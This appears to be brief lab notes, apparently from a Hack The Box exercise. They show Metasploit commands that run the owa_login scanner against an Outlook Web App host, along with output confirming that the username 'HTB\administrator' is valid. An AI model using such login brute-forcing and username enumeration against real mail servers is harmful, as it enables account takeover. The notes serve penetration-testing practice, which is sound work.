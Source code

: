 # Outlook-Web-Appplication-owa-


sudo msfdb run

search owa

use auxiliary/scanner/http/owa_login

set username administrator

set rhost 10.10.10.71

set password test


            -------10.10.10.71:443 OWA - FAILED LOGIN, BUT USERNAME +++++++++++++++++++IS VALID. +++++++++++++++0.525743915 'HTB\administrator' : 'test': SAVING TO CREDS


 set action OWA_2010



